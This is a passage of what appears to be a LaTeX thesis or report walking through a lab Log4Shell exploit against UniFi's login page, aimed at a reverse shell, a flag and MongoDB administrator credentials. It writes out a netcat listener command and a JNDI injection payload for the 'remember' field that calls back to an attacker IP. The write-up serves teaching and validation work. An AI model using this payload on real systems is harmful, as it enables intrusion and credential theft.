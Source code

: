 With these configurations set, we are ready to move into the exploitation phase.

\subsubsection{Exploit} \label{sec:validation_log4j_exploit}

The goal of the Log4j exploit on UniFi's software is to obtain a reverse shell, get the secret flag, and leverage access to get the administrative credentials on the UniFi MongoDB instance.

Initially, we can dig a little into the reconnaissance process and check which ports are open by default in the victim machine using \textit{nmap}. We can see port 8443, which is where UniFi's interface is.

Then, we access the \texttt{https://example-domain.ui.com:8443} domain and get the login page from Fig. \ref{fig:log4j_unifi_initial_dashboard} (p. \pageref{fig:log4j_unifi_initial_dashboard}).

\begin{figure}[H]
    \includegraphics[width=12cm]{figures/unifi_initial_dashboard.png}
    \caption{UniFi's Initial Dashboard.}
    \label{fig:log4j_unifi_initial_dashboard}
\end{figure}

As mentioned earlier, we need to target a field we know will be logged by Apache Log4j using a malicious JNDI query. In our case, it is the \texttt{remember} field of the POST request.

Then, we can test if the web application is vulnerable to the Log4j attack. First, we listen for connections on port 9999 using \textit{netcat} with: \texttt{nc -lnvp 9999}. From the POST request issued when submitting the login form, we only need to change the \texttt{remember} field to \texttt{\$\{jndi:ldap://172.152.0.2:9999/whatever\}} and issue the modified POST request. Notice \texttt{172.152.0.2} is the attacker machine's IP address.

